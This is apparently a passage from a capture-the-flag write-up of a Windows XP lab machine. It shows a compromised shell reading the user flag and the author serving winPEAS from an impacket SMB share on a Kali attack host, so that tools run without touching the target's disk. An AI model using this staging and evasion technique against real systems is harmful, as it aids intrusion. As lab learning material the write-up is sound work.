 ### user.txt

Let's find the user flag:

```bash
 Volume Serial Number is 54BF-723B

 Directory of C:\Documents and Settings\john

16/03/2017  08:33 ��    <DIR>          .
16/03/2017  08:33 ��    <DIR>          ..
16/03/2017  09:19 ��    <DIR>          Desktop
16/03/2017  08:33 ��    <DIR>          Favorites
16/03/2017  08:33 ��    <DIR>          My Documents
16/03/2017  08:20 ��    <DIR>          Start Menu
               0 File(s)              0 bytes
               6 Dir(s)   6.313.111.552 bytes free

dir john\Desktop
dir john\Desktop
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\Documents and Settings\john\Desktop

16/03/2017  09:19 ��    <DIR>          .
16/03/2017  09:19 ��    <DIR>          ..
16/03/2017  09:19 ��                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)   6.313.111.552 bytes free

type john\Desktop\user.txt
type john\Desktop\user.txt
e69af0e4f443de7e36876fda4ec7644f
C:\Documents and Settings>
```

### root.txt

Thought I would need `winpeas.exe` to scan the box for possible privesc.

Thanks to my work mate Duane aka `th3rock_` who dropped by the stream and showed me this cool technique.

Run your own `smbserver` instead of a webserver, which you can then use like a remote NFS share to download tools from, and output logs to so your attack files never touch the target machines disk.

On my attack machine (kali), inside the dir I want to serve, run `impacket-smbserver`:

```bash
┌──(rxhackk㉿kali)-[~/…/winPEAS/winPEASexe/binaries/Release]-[tun0: 10.10.16.2]
└─$ impacket-smbserver  tools .           
Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.4,1038)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[-] TreeConnectAndX not found WINPEASANY.EXE
[*] Closing down connection (10.10.10.4,1038)
```